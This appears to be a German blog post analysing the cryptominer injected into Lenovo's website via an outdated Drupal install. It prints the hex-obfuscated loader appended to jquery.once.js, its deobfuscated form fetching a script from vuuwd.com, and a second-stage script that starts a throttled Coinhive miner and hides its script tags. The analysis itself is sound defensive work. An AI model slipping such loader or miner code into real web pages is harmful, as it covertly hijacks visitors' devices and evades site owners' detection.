

# Analyse: Lenovo-Cryptominer

<figure>
    
    <figcaption>Injezierter Schadcode in eine jQuery-Bibliothek</figcaption>
</figure>

Vor einigen Tagen kam es in die Schlagzeilen: Durch ausgelassene Updates des Drupal-Shopsystems [fing sich die Lenovo-Webseite, und andere, einen Cryptominer ein][0].
Wie funktioniert der eingeschleuste Trojaner?

Der Trojaner läd in mehreren Stufen Skripte nach.

## Stufe 1

Injeziert wurde ein "Loader" in ein jQuery-Plugin, [jQuery Once][1], indem der folgender Schadcode an die `jquery.once.js` angehängt wurde:

<pre class="language-js line-numbers">
<code>var RqLm1=window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x67\x65\x74\x45\x6c\x65\x6d\x65\x6e\x74\x73\x42\x79\x54\x61\x67\x4e\x61\x6d\x65"]('\x68\x65\x61\x64')[0];var D2=window["\x64\x6f\x63\x75\x6d\x65\x6e\x74"]["\x63\x72\x65\x61\x74\x65\x45\x6c\x65\x6d\x65\x6e\x74"]('\x73\x63\x72\x69\x70\x74');D2["\x74\x79\x70\x65"]='\x74\x65\x78\x74\x2f\x6a\x61\x76\x61\x73\x63\x72\x69\x70\x74';D2["\x69\x64"]='\x6d\x5f\x67\x5f\x61';D2["\x73\x72\x63"]='\x68\x74\x74\x70\x3a\x2f\x2f\x76\x75\x75\x77\x64\x2e\x63\x6f\x6d\x2f\x74\x2e\x6a\x73';RqLm1["\x61\x70\x70\x65\x6e\x64\x43\x68\x69\x6c\x64"](D2);</code></pre>

Der Schadcode scheint unleserlich, jedoch sind nur alle Strings wie in C hexadezimal mit \x kodiert.
Nach dem Durchlauf eines Deobfuskator ergibt sich folgendes:

<pre class="language-js line-numbers">
<code>var RqLm1 = window["document"]["getElementsByTagName"]("head")[0];
var D2 = window["document"]["createElement"]("script");
D2["type"] = "text/javascript";
D2["id"] = "m_g_a";
D2["src"] = "http://vuuwd.com/t.js";
RqLm1["appendChild"](D2);</code></pre>

Dabei wird zu dem `head`-Element der Webseite ein `script`-Element hinzugefügt,
welches von der URL `http://vuuwd.com/t.js` weiteres JavaScript nachlädt.

Das nachgeladene JavaScript ist zwar nun offline, 
konnte aber mit Hilfe [der WaybackMachine][2] nachgeschlagen werden.

## Stufe 2

<pre class="language-js line-numbers">
<code>function loadScript(url, callback) {
    var script = document.createElement("script");
    script.type = "text/javascript";
    script.id = "m_g_a_j_s_";
    if (script.readyState) {
        script.onreadystatechange = function () {
            if (script.readyState == "loaded" || script.readyState == "complete") {
                script.onreadystatechange = null;
                callback();
            }
        };
    } else { // others
        script.onload = function () {
            callback();
        };
    }
    script.src = url;
    document.body.appendChild(script);
}
loadScript("https://coinhive.com/lib/coinhive.min.js", function () {
	var miner = new CoinHive.Anonymous('KNqo4Celu2Z8VWMM0zfRmeJHIl75wMx6', {throttle: 0.2});
	miner.start();
	var s = document.getElementById('m_g_a');
	var p = s.parentElement;
	p.removeChild(s);
	var s1 = document.getElementById('m_g_a_j_s_');
	var p1 = s1.parentElement;
	p1.removeChild(s1);
});</code></pre>

Zuerst wird die Funktion `loadScript` definiert, mit weiteres JavaScript mit
der oben genannte Methode nachgeladen wird, zusätzlich wird dazu ein Callback
ausgeführt, wenn die Resource geladen wurde.

Im Weiteren wird ein Cryptominer von [Coinhive][3] nachgeladen und eingerichtet.
Interessanterweise wird die maximal zu benutzende Rechenleistung auf 20%
eingestellt. Zusätzlich dazu werden die zuvor erstellen `script`-Elemente
aus dem DOM entfernt.

## Fazit

Besonders der letzte Teil lässt darauf schließen, dass der Malware-Autor **vermeiden wollte
entdeckt zu werden** - im DOM-Baum währen
`script`-Elemente nicht mehr zu finden und durch die reduzierte Rechenleistung
würden auch Besucher der infizierten Webseite keinen Verdacht schöpfen.

 [0]: https://heise.de/-4044683
 [1]: https://github.com/RobLoach/jquery-once
 [2]: https://https://web.archive.org/web/20180506052843/http://vuuwd.com/t.js
 [3]: https://coinhive.com
